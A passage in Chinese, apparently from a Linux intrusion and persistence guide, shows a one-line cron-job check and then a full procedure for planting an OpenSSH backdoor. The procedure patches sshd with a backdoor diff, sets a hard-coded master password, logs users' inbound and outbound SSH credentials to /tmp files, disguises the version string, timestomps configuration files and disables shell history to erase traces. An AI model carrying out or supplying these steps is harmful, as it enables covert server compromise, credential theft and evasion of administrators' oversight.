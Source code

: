 ![](.\image\privilege-5-6.png)

排查技巧：

```
# 查看可疑的定时任务列表
crontab -e
```



**8、openssh后门**

利用openssh后门，设置SSH后门密码及root密码记录位置，隐蔽性较强，不易被发现。

~~~
a、备份SSH配置文件
mv /etc/ssh/ssh_config /etc/ssh/ssh_config.old
mv /etc/ssh/sshd_config /etc/ssh/sshd_config.old

b、解压并安装补丁
tar zxf openssh-5.9p1.tar.gz
tar zxf openssh-5.9p1.tar.gz
cp openssh-5.9p1.patch/sshbd5.9p1.diff  /openssh-5.9p1
cd openssh-5.9p1
patch < sshbd5.9p1.diff

c、记录用户名和密码的文件位置及其密码
vi  includes.h
	#define ILOG "/tmp/1.txt"             //记录登录本机的用户名和密码
	#define OLOG "/tmp/2.txt"             //记录本机登录远程的用户名和密码
	#define SECRETPW "123456789"          //后门的密码

d、修改版本信息
vi version.h
	#define SSH_VERSION "填入之前记下来的版本号,伪装原版本"
	#define SSH_PORTABLE "小版本号"
	
e、安装并编译
./configure --prefix=/usr --sysconfdir=/etc/ssh --with-pam --with-kerberos5
make clean
make && make install
service sshd restart

f、对比原来的配置文件，使配置文件一致，然后修改文件日期。

touch -r  /etc/ssh/ssh_config.old /etc/ssh/ssh_config
touch -r  /etc/ssh/sshd_config.old /etc/ssh/sshd_config

g、清除操作记录
export HISTFILE=/dev/null
~~~